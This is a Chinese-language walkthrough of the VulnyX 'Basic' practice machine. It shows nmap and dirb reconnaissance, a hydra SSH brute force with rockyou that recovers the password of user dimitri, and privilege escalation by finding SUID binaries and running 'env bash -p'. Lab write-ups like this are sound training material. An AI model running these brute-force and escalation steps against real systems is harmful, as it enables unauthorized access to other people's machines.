








# 环境

来自[vulnyx_Basic](https://vulnyx.com/#Basic)

# 信息收集

## 主机发现

```bash
nmap -sn 192.168.88.0/24
```



## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.38
```



## 服务探测

```bash
sudo nmap -sV -sC -O -p22,80,631 192.168.88.38
```



两个http服务

## 目录扫描

```bash
dirb http://192.168.88.38
dirb http://192.168.88.38:631
```

# web渗透

访问80，只有测试页面，631是打印网站cups2.3.3，查找历史漏洞无果，找到一个账号，尝试爆破密码



## hydra破解ssh拿shell

```bash
hydra -l dimitri -P /usr/share/wordlists/rockyou.txt 192.168.88.38 ssh -t 60 -f
```



账号`dimitri`密码`mememe`

```bash
ssh dimitri@192.168.88.38
```



## 提权

```bash
sudo -l  #没有信息
find / -perm -4000 -exec ls -al {} \; 2>/dev/null
```



只能通过SUID提权，权限不是特别高

```bash
env bash -p
```


